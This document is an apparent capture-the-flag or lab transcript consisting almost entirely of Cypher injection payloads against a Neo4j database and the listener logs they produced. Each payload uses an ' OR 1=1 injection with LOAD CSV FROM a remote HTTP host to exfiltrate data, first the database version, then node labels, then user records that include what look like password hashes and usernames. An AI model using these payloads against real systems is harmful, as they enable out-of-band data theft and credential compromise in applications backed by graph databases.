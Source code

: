 ```' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name LOAD CSV FROM 'http://10.10.16.5:8069/?name='   name as l RETURN 0 as _0 // ```

```10.10.11.210 - - [26/Apr/2023 13:57:50] "GET /?name=Neo4j Kernel HTTP/1.1" 400 -```

```' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.16.5:8069/?version='   version   '&name='   name   '&edition='   edition as l RETURN 0 as _0 // ```

```10.10.11.210 - - [26/Apr/2023 14:20:31] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -```

```' OR 1=1 WITH 1 as a  CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.16.5:8069/?label='   label as l RETURN 0 as _0 // ```

```
10.10.11.210 - - [26/Apr/2023 14:25:43] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:25:43] "GET /?label=employee HTTP/1.1" 200 -
```

```' OR 1=1 WITH 1 as a  MATCH (u:user) UNWIND keys(u) as p LOAD CSV FROM 'http://10.10.16.5:8069/?keys='   toString(u[p]) as l RETURN 0 as _0 // ```
```
10.10.11.210 - - [26/Apr/2023 14:27:05] "GET /?keys=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:27:06] "GET /?keys=admin HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:27:06] "GET /?keys=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:27:07] "GET /?keys=john HTTP/1.1" 200 -
```
